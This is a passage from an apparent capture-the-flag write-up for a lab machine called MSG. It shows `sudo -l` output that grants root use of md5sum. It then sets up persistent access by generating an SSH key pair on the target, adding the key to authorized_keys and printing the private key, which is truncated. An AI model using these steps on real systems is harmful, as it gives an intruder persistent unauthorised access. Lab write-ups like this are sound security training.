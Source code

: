 Looking at `sudo -l` again, we see that we can using the `md5sum` command as root:

```bash
messagemaster@MSG:~$ sudo -l
sudo -l
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

I decided to get a better shell. Noticing that `SSH` was open from the initial nmap scans, I created a new private/public key pair:

```bash
messagemaster@MSG:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/messagemaster/.ssh/id_rsa): 

Created directory '/home/messagemaster/.ssh'.
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/messagemaster/.ssh/id_rsa
Your public key has been saved in /home/messagemaster/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:MaawWSaY79g0ggkN49/b7st8zaGkQDTJRzTuWDvVqlQ messagemaster@MSG
The key's randomart image is:
+---[RSA 3072]----+
|o   . ++         |
|.+ o =... .      |
|..+ + =o+E .     |
|.o...O+o+o.      |
|o ..Bo.=S.       |
|   * o+ o. .     |
|  . o..oo + .    |
|      +. o o     |
|      .*o        |
+----[SHA256]--
```

I then copied the public key to the `authoirized_key` file:

```bash
messagemaster@MSG:~/.ssh$  cp id_rsa.pub authorized_keys
```

I took the private key, and used it on my own system:

```bash
messagemaster@MSG:~/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1DH9Z2kP6bmx2hf8CzFr3e+t32kiaRUHvwx+rgZQKpV0340Q/eHm
W168Dt0pzpiic3mANdTdSq8/NmfVQFYQ2pMc4VPPc8GdWVGBPwcp78tCmfe9R4q+mQZiHY
rUTN/S6uPFZFYylVxkIPWvlzE8VmHjwX5+7Mg6v+q0YbqK956NV2BZr72VwyqWXjloVtp7
tdue9hbsRep17y4svvC+kKhKSlZR3jD9BgpM9HAsVy+yApx6UVDknxklqUDkM7OGhk7VcH
<--snipt-->
-----END OPENSSH PRIVATE KEY-----
```
